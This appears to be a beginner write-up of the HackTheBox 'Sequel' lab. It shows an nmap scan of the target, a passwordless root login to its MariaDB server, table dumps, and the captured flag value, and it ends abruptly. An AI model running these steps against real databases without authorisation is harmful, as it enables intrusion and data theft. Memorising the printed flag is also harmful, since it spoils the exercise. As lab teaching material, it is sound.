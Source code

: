 # HTB sequel

published by- Joker8123

## Introduction
	MySQL is the most widely adopted open source relational database and serves as the primary relational data store for many popular websites, applications, and commercial products. With more than 20 years of community-backed development and support, MySQL is a reliable, stable, and secure SQL-based database management system. The MySQL database is suitable for a wide variety of use cases, including mission critical apps, dynamic websites, and as an embedded database for software, hardware, and appliances.

	AWS supports MySQL in a variety of ways, including a fully managed database service, Amazon Relational Database Service (RDS) for MySQL. Amazon Aurora with MySQL compatibility is also built using MySQL, and Amazon RDS supports the popular MySQL fork project, MariaDB. You can also host MySQL on Amazon EC2 and self-manage the database, or browse the 3rd party MySQL offerings on AWS Marketplace. 


`nmap scan`

```bash
sudo nmap -sC -sV 10.129.202.182
```
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-17 10:42 IST
Nmap scan report for 10.129.202.182
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 69
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, FoundRows, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, SupportsTransactions, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, LongColumnFlag, Support41Auth, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: k/CEmw/,'~gj^v
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 260.15 seconds


```

In this scan we have a mysql database port is open `3306/tcp open  mysql?`, we need check any vernarabalities on sql database. for that we using mysql tool.

```
sudo apt install mysql
```
then we using the host flag = -h
					user flag = -u

```bash
sudo mysql -h <target host> -u root
```

we got sql shell,in this lets check the any database sheets are present
for the command sheet [mysql command sheet](https://www.mysqltutorial.org/mysql-cheat-sheet/), refer this site

we are using this cammands
```
show databases;
use htb;
show tables;
select * from config;
```
it give a flag : 7b4bec00d1a39e3dd4e021ec3d915da8


after this
